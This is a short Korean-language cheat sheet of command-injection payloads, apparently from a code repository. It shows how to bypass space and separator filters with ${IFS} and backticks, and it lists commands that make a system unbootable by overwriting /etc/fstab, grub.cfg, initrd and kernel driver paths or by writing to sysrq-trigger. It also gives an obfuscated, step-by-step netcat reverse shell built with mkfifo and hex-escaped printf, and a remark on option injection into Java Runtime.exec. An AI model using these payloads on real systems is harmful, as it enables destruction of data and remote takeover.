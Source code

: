 # COMMAND INJECTION
공백 우회  
|/usr/bin/touch${IFS}/opt/test_injection  

---------------------------------------------------
and, or ,; 우회  

\`id>/opt/test_injection\`  

--------------------------------------
라다이렉션만을 이용하여 시스템 파괴  

id>/lib/modules/*/kernel/drivers/usb/storage  
id>/etc/fstab  
id>/etc/mtab  
id>/etc/inittab  
id>/boot/grub/grub.cfg  
id>/boot/initrd.img-$(uname -r)  
id>/etc/systemd/  
echo 'b'>/proc/sysrq-trigger  
<<<b>/proc/sysrq-trigger  
root일 경우만 덮어씌울수있음.  

--------------------------------------------  
;sleep 5 # 해당 명령어가 먹힐 경우 리버스tcp 가능  
;mkfifo${IFS}/opt/f;  
;printf${IFS}'nc\x20192.168.55.55\x204444'>/opt/b;  
;printf${IFS}'\x20</opt/f\x7Cbin/sh>/opt/f'>/opt/c;  
;cat${IFS}/opt/b${IFS}/opt/c>/opt/t;  
;chmod${IFS}777${IFS}/opt/t;  
;./opt/t;  

------------------------------------------

RUNTIME 함수에서 쉘 명시하지 않을 시     
다중 명령어를 지원하지 않아도  
악의적인 명령어 옵션을 주입하여 공격 가능  
공격자의 입력 값 && echo world
Runtime.getRuntime().exec("echo Hello && echo World");  
그러나 악의적인 옵션은 주입 가능 ping -c 10 -s 1024 IP  
